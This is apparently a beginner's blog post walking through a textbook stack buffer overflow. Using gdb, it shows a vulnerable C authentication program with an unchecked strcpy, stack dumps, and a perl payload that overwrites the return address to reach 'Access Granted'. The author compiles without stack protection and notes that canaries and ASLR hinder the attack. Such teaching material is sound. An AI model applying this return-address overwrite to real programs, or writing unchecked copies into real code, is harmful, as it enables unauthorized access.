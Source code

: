 ```yaml
---
layout: post
title: "A Buffer Overflow From the 90s"
date: 2022-02-14
description: "Going over a basic buffer overflow from the book Hacking: The Art of Exploitation"
img_url: assets/img/post1/code.png
tags: [Cybersecurity, Buffer Overflow]
---
```


# 0x300 Exploitation
Lots of exploits have to do with memory corruption (buffer overflows and whatnot). Other common errors that may allow for exploitation is
thing like off by one errors.

The goal of memory corruption is to force the program to execute foreign code smuggled into memory (*Arbitrary Code Execution*).
```c
char arr1[4], arr2[4]; //these two arrays are adjacent in memory
arr1[4]="1"; //would set the char "1" into arr2 and would not cause a crash
strcpy(arr1,"123456"); //arr2 now holds "56"
```

We're going to walkthrough a overflow of the following simple C program. You should load the program into
gdb if you want to follow along. Use `gdb ./auth_overflow`.


```c
int check_authentication(char *password){
  int auth_flag = 0;

  char password_buffer[16];

  strcpy(password_buffer, password);

  printf("auth_flag location:       %p contents: %d\n", &auth_flag, auth_flag);
  printf("password_buffer location: %p contents: %s\n", password_buffer, password_buffer);

  if(strcmp(password_buffer, "brillig") == 0)
    auth_flag = 1;
  
  if(strcmp(password_buffer, "outgrabe") == 0)
    auth_flag = 1;

  return auth_flag;
}

int main(int argc, char *argv[]){
  
  if(argc < 2) {
    printf("Usage: %s <password>\n", argv[0]);
    exit(0);
  }

  if(check_authentication(argv[1])){
    printf("\n------------------------------\n");
    printf("          Access Granted!        ");
    printf("\n------------------------------\n");
  } else {
    printf("\n------------------------------\n");
    printf("          Access Denied -_-       ");
    printf("\n------------------------------\n");
  }
}
```

The idea is that the input to the program is not length checked and it is eventually written to
```c
 char password_buffer[16];
```

We can use this fact to overwrite the return address for the `check_authentication()` function and cause control to skip to the access granted portion of the code.

Remember this is an exploit from the 90's and these days there is a thing called a canary, that is a set value that sits between stack frames, that prevents obvious abuses like this. If you want to try the exploit in gdb you must compile with `-fno-stack-protector`.

You also have to keep in mind that ASLR is a thing so this would be harder to do outside of gdb https://en.wikipedia.org/wiki/Address_space_layout_randomization.

### Overwriting mains stack frame
When a function is called the current context or "frame" of that function is pushed to the stack. The stack frame contains the local variables
of the function, the return address (where execution moves to after a control is returned from a called function) and the functions arguments.

compile and load the program into gdb to get started
```
gcc auth_overflow.c -o auth_overflow  -Wall -Wextra -pedantic -std=c17 -g -fno-stack-protector
gdb ./auth_overflow
```

If you `disassemble main` you can see the relevant instructions, and their locations in memory.

```
0x0000000000001402 <+79>:	call   0x1209 <check_authentication>     // this is the call to the check_authentication function
0x0000000000001407 <+84>:	test   eax,eax                           // control would normally return to the instruction right
0x0000000000001409 <+86>:	je     0x143f <main+140>                 // after the function call
0x000000000000140b <+88>:	lea    rax,[rip+0xc7e]        # 0x2090
0x0000000000001412 <+95>:	mov    rdi,rax
0x0000000000001415 <+98>:	call   0x10c0 <puts@plt>
0x000000000000141a <+103>:	lea    rax,[rip+0xc8f]        # 0x20b0
0x0000000000001421 <+110>:	mov    rdi,rax
0x0000000000001424 <+113>:	mov    eax,0x0
0x0000000000001429 <+118>:	call   0x10e0 <printf@plt>
0x000000000000142e <+123>:	lea    rax,[rip+0xc5b]        # 0x2090
```

This is the instruction we want to move execution to.
```
0x000000000000140b <+88>:	lea    rax,[rip+0xc7e]        # 0x2090
```

You should set breakpoints at `strcpy(password_buffer, password);` and `return *auth_flag;`

Once the program is loaded into the memory the actual instruction address is 
```
0x555555555407 <main+84>:	test   eax,eax
```

If we step forward to our first breakpoint we can see the contents of the stack.

rsp in `check_authentication` = `0x7fffffffde10`

We can also see where our buffer starts in memory
```
(gdb) x/x password_buffer
0x7fffffffde30:	0x0000000000000000
```

using `x/30xg $rsp` we can see the contents of the stack
```
0x7fffffffde10:	0x0000000800000001	0x00007fffffffe2e0
0x7fffffffde20:	0x0000000000000000	0x0000000000000000
0x7fffffffde30:	0x0000000000000000	0x0000000000000000 //buffer starts here
0x7fffffffde40:	0x0000000000000000	0x0000000000000000
0x7fffffffde50:	0x00007fffffffde70	0x0000555555555407 //expected return address is here
0x7fffffffde60:	0x00007fffffffdf98	0x0000000200000001
0x7fffffffde70:	0x0000000000000002	0x00007ffff7daffd0
0x7fffffffde80:	0x0000555555554040	0x00005555555553b3
0x7fffffffde90:	0x0000000200000000	0x00007fffffffdf98
0x7fffffffdea0:	0x0000000000000000	0xf0e0fbc6da39aa0c
0x7fffffffdeb0:	0x00007fffffffdf98	0x00005555555553b3
0x7fffffffdec0:	0x0000000000000000	0x00007ffff7ffbc40
0x7fffffffded0:	0x0f1f0439673daa0c	0x0f1f14732535aa0c
0x7fffffffdee0:	0x00007fff00000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0xdcfac294e9f8b000
```

So we need 8\*6=48bytes total so 40bytes then the address of the target instruction
```
0x0000555555555402 <+79>:	call   0x555555555209 <check_authentication>
0x0000555555555407 <+84>:	test   eax,eax
0x0000555555555409 <+86>:	je     0x55555555543f <main+140>
0x000055555555540b <+88>:	lea    rax,[rip+0xc7e]        # 0x555555556090 //target address is this instruction
```

We can use perl to generate a payload to give as input to the program. Remember we need 40 bytes of padding then the 8 byte address.
```
$(perl -e 'print "a"x40 . "\x0b\x54\x55\x55\x55\x55\x00\x00"')
```

Unfortunately at this point I had to reload the program so thanks to ASLR the addresses of things in memory are slightly different, however same
basic process applies, and the distance of things in memory doesn't change.

### Exploitation
Disassembly of main
```
0x00005555555553bf <+79>:	call   0x5555555551e9 <check_authentication>
0x00005555555553c4 <+84>:	test   eax,eax
0x00005555555553c6 <+86>:	je     0x5555555553fc <main+140>
0x00005555555553c8 <+88>:	lea    rax,[rip+0xcc1]        # 0x555555556090 //this is our target
0x00005555555553cf <+95>:	mov    rdi,rax
```

Again set breakpoints at `strcpy(password_buffer, password);` and `return *auth_flag;`

With the program loaded in gdb we can use `run $(perl -e 'print "a"x40 . "\xc8\x53\x55\x55\x55\x55\x00\x00"')` to attempt the exploit.

Step to first break point and observe contents of stack within check auth function.
```
(gdb) x/16xg $rsp
0x7fffffffde20:	0x0000000000000000	0x00007fffffffe2dd
0x7fffffffde30:	0x0000000000000000	0x0000000000000000 //password_buffer starts here
0x7fffffffde40:	0x0000000000000000	0x0000000000000000
0x7fffffffde50:	0x00007fffffffde70	0x00005555555553c4 //need to overwrite this
0x7fffffffde60:	0x00007fffffffdf98	0x0000000200000001
0x7fffffffde70:	0x0000000000000002	0x00007ffff7daffd0
0x7fffffffde80:	0x0000555555554040	0x0000555555555370
0x7fffffffde90:	0x0000000200000000	0x00007fffffffdf98
```

Stepping to our second breakpoint we can see the overwrite.
```
(gdb) x/50xg $rsp
0x7fffffffddf0:	0x0000000000000000	0x00007fffffffe2bd
0x7fffffffde00:	0x6161616161616161	0x6161616161616161 //loaded with 'a'
0x7fffffffde10:	0x6161616161616161	0x6161616161616161
0x7fffffffde20:	0x6161616161616161	0x00005555555553c8 //used to end in c4
```

And we can see execution moves to the desired location and access granted is printed to the screen
```
//we hit the breakpoint on the sucessful branch
78	    printf("\n------------------------------\n");
(gdb) n
------------------------------
79	    printf("          Access Granted!        ");
(gdb) n
80	    printf("\n------------------------------\n");
(gdb) n
          Access Granted!        
------------------------------
```

And thats the exploit! Very old, very beginner level. I feel like modern security makes this almost impossible, but I'm sure people could find ways around ASLR to still comprimise the program if the vulnerability exists.
